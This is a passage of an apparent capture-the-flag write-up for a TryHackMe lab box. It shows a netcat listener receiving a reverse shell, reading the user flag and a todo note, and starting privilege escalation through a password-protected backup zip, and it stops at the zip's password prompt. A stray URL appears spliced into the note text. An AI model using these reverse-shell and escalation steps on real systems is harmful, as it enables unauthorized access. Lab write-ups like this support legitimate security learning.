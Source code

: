 
```
┌──(gemstone㉿kali)-[~/C7F5/thm/chain]
└─$ nc -nvlp 1122
listening on [any] 1122 ...
connect to [10.9.11.230] from (UNKNOWN) [10.10.8.200] 52262
/bin/sh: 0: can't access tty; job control turned off
$
```

We now have a shell then we will stabilize as usual and after it lets read the user.txt file first.

```
munojr@owaspQuiz:~$ ls
todo.txt user.txt
munojr@owaspQuiz:~$ cat user.txt
THM{REDACTED}
```

Now we are half of the journey lets continue to the escalation to root user.

## Root privilege escalation.

-- -

On munojr home directory they were two files and we read only user.txt then lets read todo.txt file

```
munojr@owaspQuiz:~$ cat todo.txt
Hey; munojr I wahttps://addons.mozilla.org/en-US/firefox/addon/shodan_io/nt you to automate system updates, kindly make sure our script is secure!!
regards peterChain!!
Your current password is : [Redacted]
```

-- -
This was a message showing that there is a file that have a password for root user.
Then after seeing this message i decided to check for the `/var/backups` file.

```
munojr@owaspQuiz:~$ cd /var/backups/
munojr@owaspQuiz:/var/backups$ ls
s3cr3t.zip
munojr@owaspQuiz:/var/backups$
```
-- -

Lets unzip it.

```
munojr@owaspQuiz:/var/backups$ unzip s3cr3t.zip
Archive: s3cr3t.zip
checkdir error: cannot create munojr
Permission denied
unable to process munojr/.
[s3cr3t.zip] munojr/rootpass.txt password:
```
